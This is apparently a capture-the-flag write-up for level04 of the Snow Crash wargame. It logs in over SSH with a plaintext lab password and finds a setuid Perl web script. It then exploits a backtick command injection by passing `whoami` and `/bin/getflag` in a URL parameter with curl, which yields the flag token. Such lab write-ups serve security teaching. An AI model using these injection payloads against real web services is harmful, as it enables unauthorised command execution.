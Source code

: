 # Level04

Login as `level04`

```bash
┌──$ [~/42/2021/snow-crash]
└─>  ssh 192.168.1.64 -p 4242 -l level03
level04@192.168.1.64's password: qi0maab88jeaj46qoumi7maus
```

We have a Perl script in the home directory.

```bash
level04@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x 1 flag04 level04 152 Mar  5  2016 level04.pl
```

After `cat level04.pl` we notice that a web page running on port **4747**

We use `nc -vz localhost 4747` to check the connection without sending any data and in verbose mode.

The script expects a value **x** passed as a parameter which is passed to `x()` function. Then after evaluate the argument with backtick it prints out x with echo.

So we pass `whoami` command and notice that it's evaluated and executed as `flag04`

```bash
level04@SnowCrash:~$ curl localhost:4747/?x="\`/usr/bin/whoami\`"
flag04
```

So we can use `getflag` as parameter to use it as flag04 owner and  get the flag.

```bash
level04@SnowCrash:~$ curl localhost:4747/?x="\`/bin/getflag\`"
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```
